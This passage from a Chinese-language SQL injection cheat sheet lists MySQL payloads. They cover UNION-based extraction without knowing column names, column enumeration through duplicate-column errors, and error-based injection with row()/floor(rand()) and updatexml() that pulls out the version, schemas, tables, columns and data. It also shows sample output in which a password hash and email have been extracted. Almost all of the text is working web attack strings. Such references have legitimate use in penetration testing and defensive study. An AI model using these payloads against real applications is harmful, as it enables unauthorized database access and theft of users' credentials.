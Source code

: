 ```sql
?id=1 and (1,2,3,4) = (SELECT * from db.users UNION SELECT 1,2,3,4 LIMIT 1)
--列 'id' 不能为空
```

适用于 `MySQL 5` 的方法

```sql
-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b)a
--#1060 - 列名 'id' 重复

-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a
-- #1060 - 列名 'name' 重复

-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id,name))a
...
```

### 不使用列名称提取数据

在不知道列名称的情况下从第4列提取数据。

```sql
select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
```

查询中的注入示例 `select author_id,title from posts where author_id=[INJECT_HERE]`

```sql
MariaDB [dummydb]> select author_id,title from posts where author_id=-1 union select 1,(select concat(`3`,0x3a,`4`) from (select 1,2,3,4,5,6 union select * from users)a limit 1,1);
+-----------+-----------------------------------------------------------------+
| author_id | title                                                           |
+-----------+-----------------------------------------------------------------+
|         1 | a45d4e080fc185dfa223aea3d0c371b6cc180a37:veronica80@example.org |
+-----------+-----------------------------------------------------------------+
```

## MYSQL 基于错误的方法

### MYSQL 报错注入

MySQL 版本>= 4.1

```sql
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'
```


### UpdateXML 函数报错注入

```sql
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```
